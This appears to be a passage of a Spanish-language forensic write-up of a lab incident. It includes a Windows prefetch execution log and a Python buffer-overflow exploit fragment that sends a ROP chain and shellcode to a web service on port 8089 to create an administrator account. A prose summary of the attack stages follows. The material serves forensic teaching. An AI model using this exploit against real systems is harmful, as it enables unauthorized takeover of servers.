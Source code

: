 ```bash
Description       : Run .EXE file
Filename          : FTK IMAGER.EXE
Full Path         : C:\PROGRAM FILES\ACCESSDATA\FTK IMAGER\FTK IMAGER.EXE
More Information  : AccessData Group, Inc., AccessData® FTK® Imager, FTK Imager, 4.2.0.13
File Extension    : EXE
Data Source       : C:\Windows\Prefetch\FTK IMAGER.EXE-1B23CEFA.pf
==================================================

==================================================
Action Time       : 28/10/2024 8:50:54
Description       : Run .EXE file
Filename          : AUDIODG.EXE
Full Path         : C:\WINDOWS\SYSTEM32\AUDIODG.EXE
More Information  : Microsoft Corporation, Sistema operativo Microsoft® Windows®, Aislamiento de gráficos de dispositivo de audio de Windows, 10.0.19041.1 (WinBuild.160101.0800)
File Extension    : EXE
Data Source       : C:\Windows\Prefetch\AUDIODG.EXE-BDFD3029.pf
==================================================

==================================================
Action Time       : 28/10/2024 8:50:54
Description       : Run .EXE file
Filename          : CONSENT.EXE
Full Path         : C:\WINDOWS\SYSTEM32\CONSENT.EXE
More Information  : Microsoft Corporation, Sistema operativo Microsoft® Windows®, UI de consentimiento para aplicaciones administrativas, 10.0.19041.1 (WinBuild.160101.0800)
File Extension    : EXE
Data Source       : C:\Windows\Prefetch\CONSENT.EXE-531BD9EA.pf
==================================================
```


### Fragmento del script malicioso

```python
payload = "A"*2278 + rop_chain + "\x90"*4 + Shellcode4 + "B"*(1790-len(Shellcode4)-len(rop_chain)) + ret
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((sys.argv[1], 8089))
s.send("POST /sendemail.ghp HTTP/1.1\r\n\r\nEmail=" + payload + "&getPassword=Get+Password")
print "[+] Creado usuario ihacklabs con password Thack12/"
s.close()
```

Este trozo código permitió la creación de un usuario no autorizado con privilegios de adminstrador, dando al atacante control total sobre el sistema.

### Detalles técnicos del ataque

El ataque se desarrolló en tres etapas principales. En primer lugar, el atacante estableció una conexión al puerto 8089 del sistema vulnerable mediante el protocolo TCP. A continuación, se explotó un desbordamiento de búfer utilizando un payload malicioso enviado a través de una solicitud HTTP POST. Finalmente, el atacante ejecutó el código malicioso, que evitó las protecciones y permitió la creación de un usuario con privilegios elevados. Este incidente recalca la importancia de mantener las actualizaciones de seguridad al día y de realizar auditorías frecuentes en los sistemas para identificar posibles vulnerabilidades.

